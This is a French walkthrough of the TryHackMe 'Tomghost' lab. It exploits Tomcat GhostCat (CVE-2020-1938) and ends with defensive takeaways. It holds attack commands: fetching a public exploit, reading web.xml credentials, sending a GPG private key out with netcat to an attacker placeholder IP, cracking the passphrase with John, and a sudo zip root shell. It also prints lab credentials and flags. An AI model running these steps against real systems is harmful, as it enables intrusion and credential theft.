---
tags:
  - Web
  - TryHackMe
  - Facile
  - Nmap
  - CVE
  - Apache Tomcat
  - John
  - GPG
---

# Tomghost - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | CVE Apache Tomcat, LFI via AJP, crackage GPG, escalade de privilèges sudo |
| **Prérequis** | Bases Linux, SSH, compréhension des CVE, utilisation de John the Ripper |

## Contexte et objectifs

Cette room met en scène un serveur Apache Tomcat 9.0.30 vulnérable à la **CVE-2020-1938** (GhostCat). L'objectif est d'exploiter cette faille pour lire des fichiers de configuration contenant des credentials, puis d'élever ses privilèges en crackant un fichier GPG chiffré et en abusant d'une permission sudo mal configurée sur la commande `zip`.

!!! info "À propos de cette room"
    Tomghost illustre deux concepts importants : la dangerosité des connecteurs AJP exposés sans authentification (faille GhostCat), et la chaîne de privesc via des fichiers chiffrés laissés dans un répertoire accessible. Elle montre aussi comment un outil aussi banal que `zip` peut devenir un vecteur d'élévation de privilèges.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

On commence par identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/Tomghost/WindowsTerminal_njXjKOkWEL.png)

!!! tip "Pourquoi ce scan ?"
    Les options `-sC` et `-sV` permettent d'obtenir les versions précises des services. Le port **8009** (AJP) est particulièrement intéressant : c'est le connecteur Apache JServ, et sa présence sur une version ancienne de Tomcat est un signal d'alarme immédiat.

Le scan révèle quatre ports ouverts :
- **22/tcp** : SSH (OpenSSH 7.2p2)
- **53/tcp** : DNS
- **8009/tcp** : AJP13 (Apache Jserv Protocol v1.3)
- **8080/tcp** : HTTP (Apache Tomcat 9.0.30)

### Étape 2 : Identification de la vulnérabilité, GhostCat (CVE-2020-1938)

La présence du port **8009** sur Apache Tomcat 9.0.30 est un indicateur direct de la CVE-2020-1938, connue sous le nom de **GhostCat**. Cette vulnérabilité permet à un attaquant non authentifié de lire des fichiers arbitraires de l'application web via le protocole AJP.

[](./screen/Tomghost/msrdc_0aVtrUgnr5.png)

!!! info "Qu'est-ce que CVE-2020-1938 (GhostCat) ?"
    Le protocole AJP (Apache JServ Protocol) est utilisé en interne pour la communication entre un reverse proxy (Apache httpd) et Tomcat. Par défaut, il écoute sur le port 8009 sans authentification. La CVE-2020-1938 permet d'exploiter ce connecteur pour inclure des fichiers locaux du serveur dans la réponse, exposant des fichiers de configuration sensibles comme `WEB-INF/web.xml`.

On récupère l'exploit public :

```bash
wget https://raw.githubusercontent.com/Digitemis/Ghostcat/master/exploit.py
```

[](./screen/Tomghost/WindowsTerminal_cG8tlm0txe.png)

### Étape 3 : Exploitation de GhostCat

Ensuite, on utilise l'exploit pour lire le fichier de configuration `WEB-INF/web.xml` qui contient souvent des credentials en clair :

```bash
python3 exploit.py read /WEB-INF/web.xml <IP_cible>
```

!!! tip "Pourquoi cette commande ?"
    L'exploit prend deux arguments : l'action (`read`) et le chemin du fichier à lire côté serveur. `WEB-INF/web.xml` est le fichier de configuration standard des applications Java/Tomcat : il contient les paramètres de déploiement, les mappings de servlets, et parfois des credentials en clair. C'est la cible logique numéro un sur un Tomcat vulnérable à GhostCat.

[](./screen/Tomghost/SRdGWmExYS.png)

Le fichier révèle des credentials :
- **Username** : `skyfuck`
- **Password** : `8730281lkjlkjdqlksalks`

!!! warning "Observation clé"
    Stocker des credentials dans `web.xml` est une mauvaise pratique courante. Ce fichier est censé rester côté serveur, mais la CVE-2020-1938 le rend lisible à distance sans authentification.

### Étape 4 : Connexion SSH et récupération du flag utilisateur

Avec des identifiants valides en main, on dispose maintenant d'un accès direct au serveur. On se connecte avec les credentials extraits. Une fois sur le serveur, on commence par une énumération basique : qui sommes-nous, dans quel répertoire, quels fichiers sont accessibles. On constate qu'un second utilisateur `merlin` existe et que son répertoire home est lisible, le flag utilisateur s'y trouve directement.

```bash
ssh skyfuck@<IP_cible>
cat /home/merlin/user.txt
```

[](./screen/Tomghost/WindowsTerminal_tYrllXCnqX.png)

[](./screen/Tomghost/WindowsTerminal_oRsRc55vt4.png)

!!! success "Réponse"
    **User flag** → `THM{GhostCat_1s_so_cr4sy}`

### Étape 5 : Découverte des fichiers GPG

Dans le répertoire de skyfuck, on trouve deux fichiers suspects :

```bash
ls -la /home/skyfuck/
```

[](./screen/Tomghost/WindowsTerminal_VW5i4ypslQ.png)

Les noms et extensions des deux fichiers suggèrent leur rôle :

- `credential.pgp` : vraisemblablement un fichier chiffré par GPG, contenant des données que seul quelqu'un possédant la clé privée associée peut lire.
- `tryhackme.asc` : vraisemblablement la clé GPG privée elle-même, exportée au format texte (ASCII armor, d'après l'extension `.asc`). Elle est protégée par une passphrase, sans laquelle on ne peut pas l'utiliser.

Ces deux fichiers forment une paire : la clé `.asc` permet de déchiffrer le `.pgp`, mais uniquement si on connaît la passphrase. C'est ce verrou qu'on va forcer à l'étape suivante.

### Étape 6 : Crack de la passphrase GPG avec John

On transfère `tryhackme.asc` sur notre machine pour cracker la passphrase avec John. Sur notre machine, on ouvre un listener :

```bash
nc -lvnp 4444 > tryhackme.asc
```

[](./screen/Tomghost/WindowsTerminal_kgQUYNusex.png)

Sur la machine cible, on envoie le fichier :

```bash
nc <VOTRE_IP> 4444 < tryhackme.asc
```

[](./screen/Tomghost/WindowsTerminal_336Tkc8NLG.png)

!!! tip "Transfert de fichier avec Netcat"
    La redirection `<` envoie le contenu du fichier comme entrée standard de `nc`, qui le transmet sur le réseau. De l'autre côté, `>` redirige ce qui arrive dans la connexion vers un fichier local. C'est un transfert brut TCP, sans chiffrement ni protocole : rapide et efficace quand SSH n'est pas disponible ou trop contraignant.

Une fois le fichier sur notre machine, on extrait le hash et on le craque :

```bash
gpg2john tryhackme.asc > gpg.hash
john gpg.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

[](./screen/Tomghost/WindowsTerminal_3VbLTJe33O.png)

[](./screen/Tomghost/WindowsTerminal_BW36kIu4Fn.png)

!!! info "Pourquoi gpg2john ?"
    `gpg2john` convertit une clé GPG chiffrée en un format de hash que John the Ripper peut attaquer par dictionnaire. Sans cette conversion, John ne peut pas traiter directement les fichiers GPG.

La passphrase trouvée est : **alexandru**

### Étape 7 : Déchiffrement du fichier et obtention des credentials merlin

On revient dans le terminal SSH (skyfuck@cible) pour importer la clé et déchiffrer `credential.pgp` directement sur la machine cible, où le fichier est intact. GPG demande la passphrase :

```bash
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

!!! tip "Pourquoi importer la clé ?"
    GPG ne peut pas déchiffrer un fichier avec une clé qu'il ne connaît pas. `gpg --import` ajoute `tryhackme.asc` au trousseau local, ce qui rend la clé privée disponible pour les opérations suivantes, dont le déchiffrement de `credential.pgp`.

[](./screen/Tomghost/WindowsTerminal_dvXtmvWnfv.png)

[](./screen/Tomghost/SIhrHwdjmD.png)

Le fichier révèle les credentials de **merlin**.

### Étape 8 : Escalade de privilèges via sudo et zip

On se connecte donc en tant que merlin avec les credentials obtenus, puis on vérifie ses droits sudo :

```bash
su merlin
sudo -l
```

[](./screen/Tomghost/WindowsTerminal_BxHv1NPO1B.png)

Merlin peut exécuter `/usr/bin/zip` en tant que root sans mot de passe. On consulte GTFOBins pour trouver la technique d'exploitation :

[](./screen/Tomghost/brave_9sIDBHdPkO.png)

On applique la technique :

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

[](./screen/Tomghost/WindowsTerminal_Kid4Nqz8u0.png)

!!! info "Comment fonctionne cette technique ?"
    - `TF=$(mktemp -u)` : génère un nom de fichier temporaire unique sans créer le fichier réel.
    - `-T` : demande à `zip` de tester l'intégrité de l'archive après sa création.
    - `-TT 'sh #'` : remplace la commande de test par défaut (unzip) par la commande fournie. `zip` exécute donc `sh` comme "vérificateur", ce qui ouvre un shell. Le `#` neutralise les arguments supplémentaires que `zip` ajoute après la commande.
    - Comme `zip` est lancé via `sudo`, le shell s'ouvre avec les droits root.

On lit le flag root :

```bash
cat /root/root.txt
```

[](./screen/Tomghost/WindowsTerminal_qNdVsXezDV.png)

!!! success "Réponse"
    **Root flag** → `THM{Z1P_1S_FAKE}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | CVE-2020-1938 GhostCat (AJP non authentifié), credentials en clair dans web.xml, passphrase GPG faible, sudo mal configuré sur zip |
| **Techniques utilisées** | Exploit AJP LFI, crack de hash GPG, GTFOBins sudo zip |
| **Outils employés** | Nmap, exploit GhostCat, gpg2john, John the Ripper, GPG, Netcat |

!!! abstract "Ce qu'il faut retenir"
    1. Le port AJP (8009) ne doit jamais être exposé publiquement : désactiver le connecteur AJP ou le protéger par authentification si Tomcat n'est pas derrière un reverse proxy interne.
    2. Les fichiers de configuration (`web.xml`, `database.php`, `.env`) ne doivent jamais contenir de credentials en clair.
    3. Un fichier chiffré GPG avec une passphrase faible n'offre aucune protection réelle contre une attaque par dictionnaire.
    4. Toujours auditer les permissions sudo (`sudo -l`) lors d'un pentest : des binaires comme `zip`, `tar`, `python` ou `vim` permettent souvent une élévation triviale via GTFOBins.
